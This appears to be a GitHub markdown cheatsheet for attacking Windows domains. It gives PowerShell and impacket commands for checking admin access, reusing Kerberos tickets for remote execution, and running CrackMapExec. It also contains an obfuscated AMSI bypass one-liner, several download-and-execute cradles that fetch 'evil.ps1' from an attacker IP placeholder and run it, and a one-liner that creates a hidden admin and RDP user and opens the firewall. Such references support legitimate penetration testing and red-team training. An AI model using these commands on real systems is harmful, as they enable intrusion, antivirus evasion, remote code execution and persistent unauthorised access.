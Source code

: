 # Windows-Domain-Cheatsheet

# Index
* [General](#General)
* [Initial Access](Initial-Access.md)
* [Host Reconnaissance](Host-Reconnaissance.md)
* [Host Persistence](Host-Persistence.md)
* [Evasion](Evasion.md)
* [Local privilege escalation](../infrastructure/privesc_windows.md)
* [Post-Exploitation](Post-Exploitation.md)
* [Lateral Movement](Lateral-Movement.md)
* [Domain Enumeration](Domain-Enumeration.md) 
* [Domain Privilege Escalation](Domain-Privilege-Escalation.md)
* [Domain Persistence](Domain-Persistence.md)
   
# General
## Good links
- https://cybersecuritynews.com/active-directory-checklist/

## Commands
#### Access C disk of a computer (check local admin)
```
ls \\<COMPUTERNAME>\c$
```

#### Use this parameter to not print errors powershell
```
-ErrorAction SilentlyContinue
```

#### Rename powershell windows
```
$host.ui.RawUI.WindowTitle = "<NAME>"
```

#### Save Credentials
```
$creds = get-credential

$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('<USERNAME>', $password)
```

#### Find a specific file
```
Get-Childitem -Path C:\ -Force -Include <FILENAME OR WORD TO SEARCH> -Recurse -ErrorAction SilentlyContinue
```

#### Check access to a file
```
$test = get-acl <PATH>
$test.Access
```

#### Crackmapexec on windows
- Download cme https://github.com/byt3bl33d3r/CrackMapExec/releases/tag/v5.1.1dev
- Download latest version of python3.8 standalone (Windows embeddable package (64-bit)) https://www.python.org/downloads/windows/

```
#add python to path variable:
$env:Path += ";c:\python"
$env:Path += ";c:\tools\python"

#add the register key if error blablah\DemoDLL_RemoteProcess.vcxproj.filters
REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\FileSystem" /v LongPathsEnabled /t REG_DWORD /d 1 /f

#add the registery key for colors
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

#### Change tickets .kirbi to .ccache and vice versa
```
python3 ticketConverter.py Administrator.kirbi Administrator.ccache
````

#### Use tickets with impacket
```
export KRB5CCNAME=<TGT_ccache_file>
python3 script.py -k -no-pass

python3 psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python3 smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python3 wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

#### Example impacket Domain Trust ticket
```
python3 /opt/impacket/examples/psexec.py -dc-ip <CHILD DC FQDN> <DOMAIN>/Administrator@<TARGET DC FQDN> -k -no-pass -debug
```

#### AMSI Bypass
- https://amsi.fail/
- Then obfuscate with https://github.com/danielbohannon/Invoke-Obfuscation
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```
Invoke-Command -Scriptblock {S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )} $sess
```

#### Download and execute cradle
- Usefull tool: https://github.com/danielbohannon/Invoke-CradleCrafter
```
iex (New-Object Net.WebClient).DownloadString('http://xx.xx.xx.xx/payload.ps1')

$ie=New-Object -ComObjectInternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://xx.xx.xx.xx/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

#PSv3 onwards

iex (iwr 'http://xx.xx.xx.xx/evil.ps1')

$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://xx.xx.xx.xx/evil.ps1',$false);$h.send();iex
$h.responseText

$wr = [System.NET.WebRequest]::Create("http://xx.xx.xx.xx/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

### Add user to local admin and RDP group and enable RDP on firewall
```
net user <USERNAME> <PASSWORD> /add /Y  && net localgroup administrators <USERNAME> /add && net localgroup "Remote Desktop Users" <USERNAME> /add && reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f && netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```


